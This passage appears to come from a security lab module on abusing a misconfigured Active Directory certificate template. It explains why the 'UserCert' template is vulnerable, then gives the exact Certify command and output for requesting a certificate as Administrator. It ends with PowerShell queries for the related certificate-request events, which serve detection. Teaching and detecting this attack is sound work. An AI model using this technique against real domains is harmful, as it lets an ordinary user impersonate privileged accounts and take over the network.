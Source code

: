 ![certify request](./img/certifyRequest.png)

When checking the 'Vulnerable Certificate Templates' section from the output of Certify, we will see that a single template with plenty of information about it is listed. We can tell that the name of the CA in the environment is *PKI.eagle.local\\eagle-PKI-CA*, and the vulnerable template is named *UserCert*. The template is vulnerable because:

- All Domain users can request a certificate on this template.
- The flag CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT is present, allowing the requester to specify the SAN (therefore, any user can request a certificate as any other user in the network, including privileged ones).
Manager approval is not required (the certificate gets issued immediately after the request without approval).
- The certificate can be used for 'Client Authentication' (we can use it for login/authentication).

To abuse this template, we will use Certify and pass the argument request by specifying the full name of the CA, the name of the vulnerable template, and the name of the user, for example, Administrator:

```
PS C:\Users\bob\Downloads> .\Certify.exe request /ca:PKI.eagle.local\eagle-PKI-CA /template:UserCert /altname:Administrator

   _____          _   _  __
  / ____|        | | (_)/ _|
 | |     ___ _ __| |_ _| |_ _   _
 | |    / _ \ '__| __| |  _| | | |
 | |___|  __/ |  | |_| | | | |_| |
  \_____\___|_|   \__|_|_|  \__, |
                             __/ |
                            |___./
  v1.0.0

[*] Action: Request a Certificates

[*] Current user context    : EAGLE\bob
[*] No subject name specified, using current context as subject.

[*] Template                : UserCert
[*] Subject                 : CN=bob, OU=EagleUsers, DC=eagle, DC=local
[*] AltName                 : Administrator

[*] Certificate Authority   : PKI.eagle.local\eagle-PKI-CA

[*] CA Response             : The certificate had been issued.
[*] Request ID              : 36

```

[PKI]: PS C:\Users\htb-student\Documents> Get-WINEvent -FilterHashtable @{Logname='Security'; ID='4886'}
[PKI]: PS C:\Users\htb-student\Documents> Get-WINEvent -FilterHashtable @{Logname='Security'; ID='4887'}
[pki]: PS C:\Users\htb-student\Documents> $events = Get-WinEvent -FilterHashtable @{Logname='Security'; ID='4886'}
[pki]: PS C:\Users\htb-student\Documents> $events[0] | Format-List -Property *